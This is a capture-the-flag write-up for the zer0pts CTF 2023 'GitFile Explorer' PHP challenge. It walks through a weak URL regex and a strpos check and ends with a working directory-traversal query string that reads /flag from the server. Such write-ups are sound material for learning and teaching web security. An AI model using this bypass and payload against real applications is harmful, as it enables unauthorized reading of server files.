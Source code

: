 ```yaml
---
title: "zer0pts CTF 2023 - GitFile Explorer"
date: "2024-11-08"
tags:
  - writeups
  - ctf
  - php
  - lfi
toc: true
math: true
bold: 
nomenu: false
---
```



This is a single PHP file challenge that contains a "Git File Explorer", it basically fetches a file from github/gitlab/bitbucket that you specify in the form. The challenge here is to read `/flag` at the root.

I went through the code to see how we can possibly read the flag, and the only way it seem to be out of this snippet:

```php
if ($service) {
    $url = craft_url($service, $owner, $repo, $branch, $file);
    if (preg_match("/^http.+\/\/.*(github|gitlab|bitbucket)/m", $url) === 1) {
        $result = file_get_contents($url);
    }
}
```

It uses `file_get_contents` via a provided URL, the URL is constructed by the function `craft_url`.

```php
function craft_url($service, $owner, $repo, $branch, $file) {
    if (strpos($service, "github") !== false) {
        /* GitHub URL */
        return $service."/".$owner."/".$repo."/".$branch."/".$file;

    } else if (strpos($service, "gitlab") !== false) {
        /* GitLab URL */
        return $service."/".$owner."/".$repo."/-/raw/".$branch."/".$file;

    } else if (strpos($service, "bitbucket") !== false) {
        /* BitBucket URL */
        return $service."/".$owner."/".$repo."/raw/".$branch."/".$file;

    }

    return null;
}
```

Now lets figure out a way to bypass the first `strpos` matching. So first of all this function does not care where it sees the string it simply return true if it sees it somewhere, so that's good to know lets go the regex that we need to bypass somehow.

So the regex seems a bit off, I spotted two things at first, the `/m` which means multiline (ends up completely random and not related to the challenge) and that it doesn't enforce a column after http, which makes it easy to request a local file. Lets try to do that.

I've put some `echo`s here and there so that I can see if it bypasses it with the following payload:

```ini
/?service=https//github
```

And it does 

```log
[Tue Nov 12 09:43:14 2024] PHP Warning:  file_get_contents(https//github/ptr-yudai/ptrlib/master/README.md): Failed to open stream: No such file or directory in /home/.<>./gitfile-explorer/index.php on line 33
```

I can see that it tries to open the folder https in the current dir and so on, the problem is that it attaches the default settings of the other attributes, so we must use them as well. After a bit trial and error I've come up with this payload:

```ini
/?service=https//github&owner=..&repo=..&branch=..&file=../../../../../flag
```

Which reads the flag:

```
zer0pts{foo/bar/../../../../../directory/traversal}
```